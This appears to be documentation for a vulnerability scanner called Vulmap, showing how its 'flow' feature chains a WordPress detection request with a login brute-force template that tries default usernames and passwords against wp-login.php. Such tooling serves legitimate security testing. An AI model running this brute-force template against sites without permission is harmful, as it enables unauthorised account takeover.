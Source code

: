 With addition of flow in Vulmap v3 we can re-write this template to first check if target is a wordpress site, if yes then bruteforce login with default credentials and this can be achieved by simply adding one line of content  i.e `flow: http("check-wp") && http("bruteforce")`  and vulmap will take care of everything else.

```yaml
id: wordpress-bruteforce
info:
  name: WordPress Login Bruteforce
  author: pdteam
  severity: high

flow: http("check-wp") && http("bruteforce")

http:
  - id: check-wp
    method: GET
    path:
      - "{{BaseURL}}/wp-login.php"
    
    matchers:
        - type: word
            words:
            - "WordPress"
            part: body
        - type: word
            words:
            - "wp-content"
            part: body
    matchers-condition: and

  - id: bruteforce
    method: POST
    path:
      - "{{BaseURL}}/wp-login.php"
    payloads:
      username:
        - admin
        - guest
        - testuser
      password:
        - password123
        - qwertyuiop
        - letmein
    body: "log=§username§&pwd=§password§&wp-submit=Log+In"
    attack: clusterbomb 
    matchers:
      - type: word
        words:
          - "ERROR"
        part: body
        negative: true
```
**Note:**  this is just a example template with poor matchers. refer 'vulmap-templates' repo for final template
